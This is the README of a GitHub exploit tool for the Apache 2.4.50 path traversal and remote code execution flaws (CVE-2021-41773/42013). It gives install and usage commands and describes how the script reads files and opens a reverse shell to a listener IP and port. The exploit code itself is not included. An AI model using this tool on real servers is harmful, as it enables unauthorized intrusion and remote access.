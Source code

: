 # Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation:

### Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
```
### Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
```
### install The Requirements:
   ```bash
   pip3 install requests~=2.27.1 termcolor~=1.1.0
   ```
### or:
```bash
   pip3 install -r add_requirements.txt
   ```
### usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -port <ThePort>
   the text file should contain the url of the target
```

### Example:
```bash
python3 50512.py target.txt -ip 10.0.2.15 -port 4444
```
![apache](png/py.jpg)

### check the version of Apache and run exploit:

![apache](png/RunExploit.jpg)

### Remote Code Execution (RCE):

![apache](png/passwd.jpg)
   
# What the Script Does ???
   Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
   If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or       execute code remotely.
   If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning !!!!!:
   For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and             exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
